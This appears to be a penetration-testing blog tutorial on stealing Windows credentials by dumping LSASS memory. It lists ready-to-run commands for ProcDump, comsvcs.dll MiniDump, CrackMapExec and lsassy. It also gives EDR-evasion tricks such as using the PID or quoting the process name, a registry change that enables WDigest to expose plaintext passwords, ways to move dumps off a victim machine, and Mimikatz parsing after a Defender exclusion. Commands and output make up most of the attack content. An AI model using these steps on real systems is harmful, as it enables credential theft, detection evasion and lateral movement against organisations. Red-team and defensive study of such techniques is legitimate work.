Mimikatz is a tool for dumping credentials from memory in Windows. It is a great tool for lateral and vertical privilege escalation in Windows Active Directory environments. Due to its popularity, the Mimikatz executable and PowerShell script are detected by most of the Antivirus (AV) solutions out there. In this article, I will talk about using several alternative methods to achieve the same goal without the need to modify the Mimikatz.

What is LSASS?

The Local Security Authority Subsystem Service (LSASS) is the service in Microsoft Windows that manages all user authentication, password changes, generation of access tokens, and enforcement of security policies. For example, when you log on to a Windows user account or server, lsass.exe verifies the login name and password.



Requirements to Get DUMP from LSASS

It is necessary to have SeDebugPrivilege privilege to dump LSASS as an attacker. The default Windows setting is to give this privilege to local administrators. You can check the rights with the command below.

| 1  | whoami /priv  |
|----|---------------|



LSASS Dump Getting Methods

Method 1- Getting LSASS Dump with Task Manager (GUI)

If you have Remote Desktop Protocol (RDP) session or other GUI access to the device, you can use the Windows Task Manager to create a dump file. By default, Windows Defender does not warn about threats.

From the Task Manager go to the Details tab, find lsass.exe, right click and select Create dump file.

This will create a dump file in the user’s C:\\Users\\0xhav0c\\AppData\\Local\\Temp directory:



Method 2- Getting LSASS Dump with ProcDump

[Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) is a Windows SysInternals tool that can be used to create memory dumps of processes. The disadvantage of this method is that you have to copy the Procdump executable to the target machine, and some organizations warn the binary as malicious.

To create a LSASS memory dump:

| 1  | PS C:\\Users\\0xhav0c\> procdump.exe -accepteula -ma lsass.exe out.dmp  |
|----|-------------------------------------------------------------------------|

Downloading ProcDump on victim machine with evil-winrm session

Simple web server on attacker machine for share procdump files

Getting LSASS Dump with ProcDump.exe

Some EDR solutions warn or block this based on the lsass process name. This can usually be bypassed by specifying the LSASS transaction ID instead.

To get the LSASS process ID via PowerShell:

| 1  | PS C:\\Users\\0xhav0c\> get-process lsass  |
|----|--------------------------------------------|

Finding lsass.exe PID with Powershell

To get the LSASS process ID with CMD:

| 1  | C:\\Users\\0xhav0c\> tasklist \| findstr lsass  |
|----|-------------------------------------------------|

finding lsass.exe PID with CMD

Then dump the findstr value with the same procdump:

| 1  | C:\\Users\\0xhav0c\> procdump.exe -accepteula -ma 528 out.dmp  |
|----|----------------------------------------------------------------|



Additionally, depending on the EDR, you can simply add quotes around the transaction name

| 1 2 3  | PS C:\\Users\\0xhav0c\> procdump.exe -accepteula -ma “lsass.exe” out.dmp \#or PS C:\\Users\\0xhav0c\> procdump.exe -accepteula -ma 'lsass.exe' out.dmp  |
|--------|---------------------------------------------------------------------------------------------------------------------------------------------------------|



Method 3- Getting LSASS Dump with Comsvcs

With Comsvcs you can create a memory dump using native libraries available on Windows machines.

| 1 2 3 4 5  | \# Detect the PID for lsass.exe PS C:\\Users\\0xhav0c\> tasklist \| findstr lsass lsass.exe 524 Services 0 51,752 K \# Dumping LSASS.exe PS C:\\Users\\0xhav0c\> C:\\Windows\\System32\\rundll32.exe C:\\windows\\System32\\comsvcs.dll, MiniDump 524 C:\\temp\\out.dmp full  |
|------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Finding lsass.exe pid and getting LSASS dump with Comsvcs.

Method 4- Getting LSASS Dump with Crackmapexec

Crackmapexec is an excellent tool for performing a LSASS dump remotely. With credentials with local admin access, you can to indicate an entire subnet or list of IP addresses and get.

| 1  | crackmapexec smb 192.168.x.x -u 0xhav0c -p Password123! --lsa  |
|----|----------------------------------------------------------------|

Getting LSASS dump with Crackmapexec.

Stored hashes and plaintext password outputs.

If Crackmapexec catches hashes and plaintext passwords, it will keep it in its home directory under \~/.cme/logs/.

CrackMapExec uses Impacket’s [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to dump LSASS.

Method 5- Getting LSASS Dump with lsassy

[Lsassy](https://github.com/Hackndo/lsassy) is a tool that uses a combination of the above methods to offload LSASS remotely. The default command attempts to use the comsvcs.dll method to offload LSASS with WMI or a remote scheduled task:

| 1  | └─\$ lsassy -d secybr.com -u 0xhav0c -p Password123! 192.168.x.x  |
|----|-------------------------------------------------------------------|

Getting LSASS dump with lsassy

Lsassy is also available in crackmapexec.

| 1  | └─\$ crackmapexec smb 192.168.x.x -u 0xhav0c -p Password123! -M lsassy  |
|----|-------------------------------------------------------------------------|

Getting LSASS dump with Crackmapexec lsassy module.

The methods shown up to this section were for devices that hold hashes and plaintext credentials.

Enabling Wdigest and Obtaining Plain Text Credentials

WDigest is disabled on newer machines. It is possible for attackers to enable this plaintext credentials when a user logs in. WDigest can be enabled by setting the required registry key to “1” instead of “0”:

| 1  | C:\\Users\\0xhav0c\> reg add HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /d 1  |
|----|-------------------------------------------------------------------------------------------------------------------------------|

Enabling Wdigest with entering a registry key.

On victim machine: Attached registry image.Additionally, this can be done remotely with Crackmapexec:

| 1 2 3 4  | └─\$ crackmapexec smb 192.168.x.x -u 0xhav0c -p 'Password123!' -M wdigest -o action=enable SMB 192.168.x.x 445 DC [\*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:secybr.com) (signing:True) (SMBv1:True) SMB 192.168.x.x 445 DC [+] secybr.com\\0xhav0c:Password123! (Pwn3d!) WDIGEST 192.168.x.x 445 DC [+] UseLogonCredential registry key created successfully  |
|----------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Moving Dump Files to Attacker Device

Once you have the dump file, you can transfer it to the device where you can use mimikatz in many ways.

-   You can copy paste with RDP.
-   You can mount your disk to that device before sending the RDP connection.
-   You can create a simple PHP page, configure it to accept file uploads to this address, and transfer the file to yourself with a POST request with Powershell on the victim device.
-   If the victim has python on the device, you can create a simple web page by using the http-server module.
-   Or you can upload it to an upload site that comes to mind first and get it from there.

Examining Dump Files

Method 1 - Examining Dump Files Using pypkatz

| 1  | └─\$ pypykatz lsa minidump lsass.DMP  |
|----|---------------------------------------|

Examining dump files using pypkatz (Since the output is long, it is shared to the terminal.)

Method 2 - Examining Dump Files using mimikatz.exe

After obtaining the dump file, download Mimikaz on a windows device that belongs to you.

Make sure to create an exception folder for Windows Defender on the machine where you are using Mimikatz, otherwise Defender Mimikatz will quarantine your executable. Run Mimikatz.

Use the following commands to extract the credentials from your LSASS Dump file:

| 1 2  | sekurlsa::minidump lsass.DMP sekurlsa::logonPasswords  |
|------|--------------------------------------------------------|



Examining dump files with mimikatz.exe
